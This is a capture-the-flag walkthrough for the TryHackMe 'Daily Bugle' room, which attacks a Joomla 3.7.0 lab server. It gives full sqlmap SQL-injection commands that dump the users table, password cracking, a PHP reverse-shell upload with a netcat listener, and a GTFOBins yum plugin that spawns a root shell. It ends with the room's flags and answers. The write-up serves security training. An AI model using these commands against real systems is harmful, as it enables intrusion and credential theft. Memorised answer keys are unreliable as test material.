

# [Daily Bugle](https://tryhackme.com/r/room/dailybugle)


[Daily Bugle](https://tryhackme.com/r/room/dailybugle) is listed as an Hard room. Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* Joomblah.py


## Task 1 - Deploy


Deploy the machine - it may take up to 2 minutes to configure

### Answer the questions below

* Access the web server, who robbed the bank?

	`spiderman`

	

## Task 2 - Obtain user and root


Hack into the machine and obtain the root user's credentials.

### Enumeration & Exploit

* Scan open port with **Nmap**

	```
	nmap $IP --script vuln -oN nmap-vuln
	```

	```
	# Nmap 7.94SVN scan initiated Thu Jul  4 04:18:15 2024 as: nmap --script vuln -oN nmap-vuln 10.10.131.171
	Nmap scan report for 10.10.131.171
	Host is up (0.36s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT     STATE SERVICE
	22/tcp   open  ssh
	80/tcp   open  http
	|_http-trace: TRACE is enabled
	| http-csrf: 
	| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.131.171
	|   Found the following possible CSRF vulnerabilities: 
	|     
	|     Path: http://10.10.131.171:80/
	|     Form id: login-form
	|     Form action: /index.php
	|     
	|     Path: http://10.10.131.171:80/index.php/component/users/?view=remind&Itemid=101
	|     Form id: user-registration
	|     Form action: /index.php/component/users/?task=remind.remind&Itemid=101
	|     
	|     Path: http://10.10.131.171:80/index.php/component/users/?view=remind&Itemid=101
	|     Form id: login-form
	|     Form action: /index.php/component/users/?Itemid=101
	|     
	|     Path: http://10.10.131.171:80/index.php/component/users/?view=reset&Itemid=101
	|     Form id: user-registration
	|     Form action: /index.php/component/users/?task=reset.request&Itemid=101
	|     
	|     Path: http://10.10.131.171:80/index.php/component/users/?view=reset&Itemid=101
	|     Form id: login-form
	|     Form action: /index.php/component/users/?Itemid=101
	|     
	|     Path: http://10.10.131.171:80/index.php/2-uncategorised/1-spider-man-robs-bank
	|     Form id: login-form
	|     Form action: /index.php
	|     
	|     Path: http://10.10.131.171:80/index.php
	|     Form id: login-form
	|_    Form action: /index.php
	|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
	| http-vuln-cve2017-8917: 
	|   VULNERABLE:
	|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
	|     State: VULNERABLE
	|     IDs:  CVE:CVE-2017-8917
	|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
	|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
	|       to execute aribitrary SQL commands via unspecified vectors.
	|       
	|     Disclosure date: 2017-05-17
	|     Extra information:
	|       User: root@localhost
	|     References:
	|       https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
	|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917
	| http-dombased-xss: 
	| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.131.171
	|   Found the following indications of potential DOM based XSS: 
	|     
	|     Source: window.open(this.href,'win2','status=no,toolbar=no,scrollbars=yes,titlebar=no,menubar=no,resizable=yes,width=640,height=480,directories=no,location=no')
	|_    Pages: http://10.10.131.171:80/, http://10.10.131.171:80/index.php/2-uncategorised/1-spider-man-robs-bank, http://10.10.131.171:80/index.php
	| http-enum: 
	|   /administrator/: Possible admin folder
	|   /administrator/index.php: Possible admin folder
	|   /robots.txt: Robots file
	|   /administrator/manifests/files/joomla.xml: Joomla version 3.7.0
	|   /language/en-GB/en-GB.xml: Joomla version 3.7.0
	|   /htaccess.txt: Joomla!
	|   /README.txt: Interesting, a readme.
	|   /bin/: Potentially interesting folder
	|   /cache/: Potentially interesting folder
	|   /icons/: Potentially interesting folder w/ directory listing
	|   /images/: Potentially interesting folder
	|   /includes/: Potentially interesting folder
	|   /libraries/: Potentially interesting folder
	|   /modules/: Potentially interesting folder
	|   /templates/: Potentially interesting folder
	|_  /tmp/: Potentially interesting folder
	3306/tcp open  mysql
	```

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-scan
	```

	

* Searchsploit by CVE-2017-8917

	```
	searchsploit --cve CVE-2017-8917
	```

	

* Download and read file exsploit

	

* Method 1 - Use `joomblah.py`

	* Download `joomblah.py`
		
		```
		wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
		```
	
		
	
	* Use `joomblah.py` to enumerate
	
		```
		python joomblah.py http://10.10.27.221
		```
	
		

* Method 2 - Use SQLMap

	* Run script command from exploit file to get DBMS info
	
		```
		sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
		```

		

	* Run script again to get info table
	
		```
		sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --tables -D joomla
		```

		

	* Run script again to get hash
	
		```
		sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump
		```

	

* Save the hash to `hash-jonah.txt` and Use `JohnTheRipper` to crack password
	
	```
	john hash-jonah.txt -w=/usr/share/wordlists/rockyou.txt
	```

	

* Login to `http://10.10.27.221/administrator/`, Use template to upload our payload PHP reverser shell

	

	

	

	

	

* Setup listener on our attacker machine

	```
	nc -nvlp 8888
	```

	

* Get the shell with access `http://10.10.36.44/templates/protostar/revshell.php`

	

* Create http server on attacker machine to download `linpeas.sh` on target machine

	

	

* Run `linpeas.sh`

	```
	chmod +x linpeas.sh
	./linpeas.sh
	```

	

* Login to `jjameson` and get the flag

	```
	su jjameson
	```

	

* Check `sudo -l`

	

* Elevated privileges with sudo yum, copy and paste script from https://gtfobins.github.io/gtfobins/yum/ to shell target

	```
	TF=$(mktemp -d)
	cat >$TF/x<<EOF
	[main]
	plugins=1
	pluginpath=$TF
	pluginconfpath=$TF
	EOF

	cat >$TF/y.conf<<EOF
	[main]
	enabled=1
	EOF

	cat >$TF/y.py<<EOF
	import os
	import yum
	from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
	requires_api_version='2.1'
	def init_hook(conduit):
	  os.execl('/bin/sh','/bin/sh')
	EOF

	sudo yum -c $TF/x --enableplugin=y
	```

	

* Get the root file

	

### Answer the questions below

* What is the Joomla version?

	`3.7.0`

	

*Instead of using SQLMap, why not use a python script!*

* What is Jonah's cracked password?

	`spiderman123`

	

* What is the user flag?

	`27a260fe3cba712cfdedb1c86d80442e`

	

* What is the root flag?

	`eec3d53292b1821868266858d7fa6f79`

	

## Task 3 - Credits


This room uses artwork that is owned by Sony Pictures

### Answer the questions below

* Found another way to compromise the machine or want to assist others in rooting it? Keep an eye on the forum post located [here](https://tryhackme.com/thread/5e1ef29a2eda9b0f20b151fd).